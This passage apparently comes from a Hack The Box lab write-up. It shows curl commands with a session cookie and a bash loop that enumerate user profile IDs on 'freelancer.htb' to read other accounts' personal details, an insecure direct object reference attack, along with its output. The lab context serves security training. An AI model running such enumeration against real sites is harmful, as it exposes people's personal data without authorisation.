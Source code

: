 ```bash



[+] Profile 18



[+] Profile 19

<..SNIP..>
```

Mi ID was 10011 and it works with this snippet:

```bash
❯ curl -s http://freelancer.htb/accounts/profile/visit/10011/ -H "Cookie: sessionid=b0r060kmv3946cnyylp3strymp80ev08; csrftoken=b0r060kmv3946cnyylp3strymp80ev08" | pup 'div.employers-details-information' | pup 'div.information-box h3, div.information-box span, ul.information-list-box li div' | html2text 2>/dev/null
**** gabriEmployer ****
gabri gabri
Company Name: GabriCompany
Address: gabri house
Phone NUmber:
Email: gabriEmployeer@freelancer.htb
Joined At: 2024-10-05
Job Position:
```

That's the case because the first new user begun with ID 10010 and the newest have a incremental ID. In my case I can see another hackthebox player that created an account `test`:

```bash
❯ for profileId in $(seq 10000 10011);do (echo -ne "\n\n[+] Profile $profileId\n\n"; curl -s "http://freelancer.htb/accounts/profile/visit/$profileId/" -H "Cookie: sessionid=b0r060kmv3946cnyylp3strymp80ev08; csrftoken=b0r060kmv3946cnyylp3strymp80ev08" | pup 'div.employers-details-information' | pup 'div.information-box h3, div.information-box span, ul.information-list-box li div' | html2text) 2>/dev/null;done


[+] Profile 10000



[+] Profile 10001



[+] Profile 10002



[+] Profile 10003



[+] Profile 10004



[+] Profile 10005



[+] Profile 10006
```